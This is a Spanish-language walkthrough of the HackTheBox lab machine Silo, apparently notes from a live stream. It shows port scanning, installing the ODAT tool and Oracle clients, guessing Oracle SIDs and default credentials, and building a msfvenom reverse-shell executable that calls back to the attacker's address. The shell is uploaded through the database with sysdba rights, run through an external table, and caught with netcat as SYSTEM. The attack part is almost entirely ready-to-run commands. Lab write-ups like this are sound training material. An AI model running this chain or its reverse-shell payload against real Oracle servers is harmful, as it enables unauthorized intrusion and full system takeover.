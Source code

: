 ```yaml
---
layout: post
title: HTB_Silo
date: 2023/07/10
---
```


# Silo {-}

## Introduccion {-}

La maquina del dia 11/08/2021 se llama Silo
.

El replay del live se puede ver aqui

[![S4vitaar Silo maquina](https://img.youtube.com/vi/-nb98Pb8oP0/0.jpg)](https://www.youtube.com/watch?v=-nb98Pb8oP0&t=910s)

No olvideis dejar un like al video y un commentario...
## Enumeracion {-}

### Reconocimiento de maquina, puertos abiertos y servicios {-} 

#### Ping {-}

```bash
ping -c 1 10.10.10.82
```
ttl: 127 -> maquina Windows

#### Nmap {-}

```bash
nmap -p- --open -T5 -v -n 10.10.10.82
```

Va lento

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.82 -oG allPorts 
extractPorts allPorts
nmap -sC -sV -p80,135,139,445,1521,5985,47001,49152,49153,49154,49155,49159,49160,49161,49162 10.10.10.82 -oN targeted
```


| Puerto | Servicio   | Que se nos occure?             | Que falta? |
| ------ | ---------- | ------------------------------ | ---------- |
| 80     | http       | Web, fuzzing                   |            |
| 135    | msrpc      |                                |            |
| 139    | netbios    |                                |            |
| 445    | smb        | Null session                   |            |
| 1521   | oracle-tns | Attacke con ODAT               |            |
| 5985   | msrpc      | Puertos por defecto de windows |            |
| 47001  | msrpc      | Puertos por defecto de windows |            |
| 49152  | msrpc      | Puertos por defecto de windows |            |
| 49153  | msrpc      | Puertos por defecto de windows |            |
| 49154  | msrpc      | Puertos por defecto de windows |            |
| 49155  | msrpc      | Puertos por defecto de windows |            |
| 49159  | msrpc      | Puertos por defecto de windows |            |
| 49160  | msrpc      | Puertos por defecto de windows |            |
| 49161  | msrpc      | Puertos por defecto de windows |            |
| 49162  | msrpc      | Puertos por defecto de windows |            |


### Analyzando el SMB {-}

```bash
crackmapexec smb 10.10.10.82
smbclient -L 10.10.10.82 -N
```

Vemos que estamos en frente de una maquina Windows Server 2021 R2 de 64 bit pro que se llama **SILO** en el dominio **SILO** y poco mas

### Analyzando la web {-}

#### Whatweb {-}

```bash
whatweb http://10.10.10.82
```

Nada muy interressante aqui


#### Checkear la web {-}

Sabemos que es un IIS 8.5 y asp.net pero poco mas. Vamos a fuzzear routas.


## Vulnerability Assessment {-}

### Oracle ataque con ODAT {-}

#### Installacion de ODAT {-}

```bash
git clone https://github.com/quentinhardy/odat
cd odat
git submodule init
git submodule update
sudo apt-get install libaio1 python3-dev alien python3-pip
pip3 install cx_Oracle
```

Como la maquina victima es de 64 bits, descargamos los client basic sdk y sqlplus de la web de oracle

```bash
mkdir isolation
cd isolation
wget https://download.oracle.com/otn_software/linux/instantclient/211000/oracle-instantclient-basic-21.1.0.0.0-1.x86_64.rpm
wget https://download.oracle.com/otn_software/linux/instantclient/211000/oracle-instantclient-sqlplus-21.1.0.0.0-1.x86_64.rpm
wget https://download.oracle.com/otn_software/linux/instantclient/211000/oracle-instantclient-devel-21.1.0.0.0-1.x86_64.rpm
```

ahora transformamos los `.rpm` en `.deb` y lo installamos

```bash
alien --to-deb *.rpm
dpkg -i *.deb
```

Añadimos las variables de entorno el la .zshrc

```bash
ls /usr/lib/oracle

#Output
21

vi ~/.zshrc

export ORACLE_HOME=/usr/lib/oracle/21/client64/
export LD_LIBRARY_PATH=$LD_LIBRARY_PATH:$ORACLE_HOME/lib
export PATH=${ORACLE_HOME}bin:$PATH
```

Checkeamos que todo se aya installado bien

```bash
sqlplus64
python3 odat.py --help
```

#### Ataque con ODAT {-}

1. Buscamos si encontramos SID's

    ```bash
    python3 odat.py sidguesser -s 10.10.10.82
    ```

1. Ataque de typo password guesser

    ```bash
    locate oracle_ | grep "pass"
    cat /usr/share/metasploit-framework/data/wordlists/oracle_default_userpass.txt | tr ' ' '/' | > passwords
    python3 odat.py passwordguesser -s 10.10.10.82 -d XE --accounts-file passwords
    ```

1. Ahora que tenemos un usuario y una contraseña utilizamos el parametro utlfile que permite descargar, uploadear y supprimir ficheros

    ```bash
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.8 LPORT=443 -f exe -o shell.exe
    python3 odat.py utlfile -s 10.10.10.82 -d XE -U "scott" -P "tiger"
    python3 odat.py utlfile -s 10.10.10.82 -d XE -U "scott" -P "tiger" --putFile /Temp shell.exe
    python3 odat.py utlfile -s 10.10.10.82 -d XE -U "scott" -P "tiger" --putFile /Temp shell.exe
    ```

1. No tenemos sufficientes privilegios para subir archivos pero ODAT tiene un parametro `--sysdba` que nos puede ayudar

    ```bash
    python3 odat.py utlfile -s 10.10.10.82 -d XE -U "scott" -P "tiger" --putFile /Temp shell.exe --sysdba
    ```

1. Intentamos ganar accesso al systema
## Vuln exploit & Gaining Access {-}

### Ganando accesso con ODAT {-}

Nos ponemos en escucha por el puerto 443

```bash
rlwrap nc -nlvp 443
```

Intentamos ejecutar el exploit con odat

```bash
python3 odat.py --help
python3 odat.py externaltable -s 10.10.10.82 -d XE -U "scott" -P "tiger" --sysdba --exec /Temp shell.exe
```

Ya hemos ganado accesso al systema y ademas somos nt authority\system que significa que no es necessario hacer escalada de privilegios.
